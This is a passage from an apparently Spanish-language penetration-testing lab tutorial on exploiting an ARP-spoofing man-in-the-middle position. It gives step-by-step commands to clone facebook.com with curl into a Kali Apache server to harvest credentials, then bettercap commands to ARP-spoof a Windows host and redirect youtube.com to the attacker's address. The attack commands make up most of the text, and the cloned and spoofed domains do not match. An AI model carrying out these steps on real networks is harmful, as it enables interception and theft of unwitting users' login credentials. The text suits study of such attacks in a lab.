


Una vez situados en esta posición de MITM mediante ARP spoofing podemos aprovecharnos de diferentes formas.
Consiste en modificar el paquete que manda la máquina windows preguntando por la dirección IP del servidor por ejemplo de facebook y le indicamos una dirección falsa.
Con esto podemos simular una página idéntica a facebook.com y que los credenciales queden capturados.
Para crear nuestro servidor web en kali:
sudo service apache2 start / restart
Para cambiar la web sencillamente podemos clonar una web objetivo y localizarla en :
/var/www/html
Por ejemplo con curl:
curl https://www.facebook.com/\?locale\=es_ES > facebook.html
Eliminamos el index de apache y pegamos el de facebook.
sudo rm /var/www/html/index.html
sudo mv facebook.html /var/www/html/index.html
Entramos en nuestra ip de kali y comprobamos.

Ahora realizamos el DNS spoofing a la máquina windows.
En bettercap:
sudo bettercap
set arp.spoof targets 192.168.44.131
arp.spoof on
set dns.spoof.domains youtube.com
set dns.spoof.address 192.168.44.128
dns.spoof on
